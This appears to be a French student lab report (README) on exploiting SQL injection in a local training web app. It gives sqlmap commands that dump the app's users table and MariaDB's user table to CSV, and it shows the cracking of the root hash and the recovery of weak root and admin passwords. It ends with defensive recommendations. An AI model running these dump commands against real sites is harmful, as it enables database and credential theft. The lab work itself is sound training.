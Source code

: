 # 🛡️ SQL Injection Training App - Rapport d'Exploitation 🛡️

<div align="center">

![SQL Injection](https://evalian.co.uk/wp-content/uploads/2022/04/XSS-Attacks.png)

</div>


---

## 📋 Objectif

Ce projet a pour but de démontrer l'exploitation de vulnérabilités d'injection SQL dans une application web. Les objectifs spécifiques sont :

1. **Extraire le schéma de la base de données** et le sauvegarder dans un fichier `.csv`.
2. **Lister les utilisateurs de l'application** et les sauvegarder dans un fichier `.csv`.
3. **Lister les utilisateurs de MariaDB** et les sauvegarder dans un fichier `.csv`.
4. **Obtenir et documenter le mot de passe de l'utilisateur root de MariaDB** par force brute.
   
---

## 🛠️ Pré-requis

- **sqlmap** : Outil puissant pour automatiser la détection et l'exploitation des vulnérabilités d'injection SQL.
- **MariaDB** : Système de gestion de base de données utilisé par l'application cible.
- **Accès à l'application web vulnérable**.

---

## 🚀 Étapes Réalisées

### 1. 🔍 Identification des Vulnérabilités d'Injection SQL

En testant les champs du formulaire `register.php` avec une apostrophe (`'`), une erreur SQL a été générée, révélant l'utilisation de MariaDB. Cela a indiqué une potentielle vulnérabilité d'injection SQL.

**erreur :**

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e','','')' at line 1
```

---

### 2. 🗄️ Extraction du Schéma de la Base de Données

**Commande utilisée :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       --dbs --batch
```

**Bases de données identifiées :**

- `information_schema`
- `mysql`
- `performance_schema`
- `sqlitraining`
- `sys`

Nous avons ciblé la base de données `sqlitraining` pour extraire son schéma.

**Extraction des tables de `sqlitraining` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --tables --batch
```

**Tables trouvées :**

- `products`
- `users`

**Dump du schéma dans un fichier `.csv` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --dump --dump-format=CSV --batch
```

---

### 3. 👥 Liste des Utilisateurs de l'Application

En ciblant la table `users` de la base `sqlitraining`, nous avons extrait les utilisateurs de l'application.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Résultat :**

Les informations des utilisateurs ont été sauvegardées dans `application_users.csv`.

---

### 4. 🗝️ Liste des Utilisateurs de MariaDB

Nous avons ciblé la base de données `mysql`, qui contient les informations des utilisateurs de MariaDB.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D mysql -T user --dump --dump-format=CSV --batch
```

**Résultat :**

La liste des utilisateurs de MariaDB a été extraite et sauvegardée dans `mariadb_users.csv`.

---

### 5. 🔐 Récupération du Mot de Passe de l'Utilisateur Root de MariaDB

En analysant les données extraites, nous avons récupéré le hachage du mot de passe de l'utilisateur `root`.

**Hachage récupéré :**

```
81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

**Déchiffrement du hachage :**

Nous avons utilisé [CrackStation](https://crackstation.net/) pour déchiffrer le hachage.

**Mot de passe obtenu :**

```
root
```

*Le mot de passe est étonnamment simple, ce qui souligne l'importance d'utiliser des mots de passe forts.*

---

### 6. 🏆 Challenge 2 : Récupération du Mot de Passe de l'Administrateur de l'Application

En examinant la table `users`, nous avons identifié l'utilisateur administrateur.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Mot de passe de l'administrateur :**

```
admin
```

*Encore une fois, un mot de passe faible qui peut être facilement compromis.*

---

## 📁 Fichiers Générés

- **Schéma de la base de données** : [`database_schema.csv`](./database_schema.csv)
- **Liste des utilisateurs de l'application** : [`application_users.csv`](./application_users.csv)
- **Liste des utilisateurs de MariaDB** : [`mariadb_users.csv`](./mariadb_users.csv)
- **Mot de passe root de MariaDB** : [`mariadb_root_password.txt`](./mariadb_root_password.txt)
- **Mot de passe administrateur de l'application** : [`application_admin_password.txt`](./application_admin_password.txt)

---

## 📊 Résumé des Résultats

| Objectif                                                       | Statut    |
|---------------------------------------------------------------|-----------|
| Extraction du schéma de la base de données                    | ✅ Réussi |
| Liste des utilisateurs de l'application                       | ✅ Réussi |
| Liste des utilisateurs de MariaDB                             | ✅ Réussi |
| Récupération du mot de passe root de MariaDB                  | ✅ Réussi |
| Challenge 2 : Mot de passe de l'administrateur de l'application | ✅ Réussi |

---

## 🔒 Conclusion et Recommandations

Cette exploitation démontre à quel point les applications web peuvent être vulnérables aux attaques par injection SQL si elles ne sont pas correctement sécurisées.

**Recommandations :**

- **Utiliser des requêtes préparées** : Éviter les concaténations de chaînes pour construire des requêtes SQL.
- **Valider et assainir toutes les entrées utilisateur** : Utiliser des fonctions d'échappement et de validation.
- **Mots de passe forts** : Toujours utiliser des mots de passe complexes et uniques pour les utilisateurs et les administrateurs.
- **Mises à jour régulières** : Garder les systèmes et les applications à jour avec les derniers correctifs de sécurité.
- **Limiter les privilèges** : Les utilisateurs ne devraient avoir que les privilèges nécessaires pour accomplir leurs tâches.

